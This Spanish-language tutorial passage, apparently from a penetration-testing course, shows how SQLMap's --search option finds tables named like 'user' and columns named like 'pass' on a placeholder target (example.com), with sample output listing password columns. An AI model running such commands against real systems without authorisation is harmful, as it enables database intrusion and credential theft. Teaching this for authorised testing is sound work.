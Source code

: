 
## Searching for Data

Cuando se trata de estructuras de bases de datos complejas con numerosas tablas y columnas, podemos buscar bases de datos, tablas y columnas de interés utilizando la opción `--search`. Esta opción nos permite buscar nombres de identificadores utilizando el operador `LIKE`. Por ejemplo, si estamos buscando todos los nombres de tablas que contienen la palabra clave `user`, podemos ejecutar SQLMap de la siguiente manera:

```r
sqlmap -u "http://www.example.com/?id=1" --search -T user

...SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+

Database: information_schema
[1 table]
+-----------------+
| USER_PRIVILEGES |
+-----------------+

Database: mysql
[1 table]
+-----------------+
| user            |
+-----------------+

do you want to dump found table(s) entries? [Y/n] 
...SNIP...
```

En el ejemplo anterior, podemos identificar de inmediato algunos objetivos interesantes para la recuperación de datos según estos resultados de búsqueda. También podríamos haber intentado buscar todos los nombres de columnas basados en una palabra clave específica (por ejemplo, `pass`):

```r
sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
```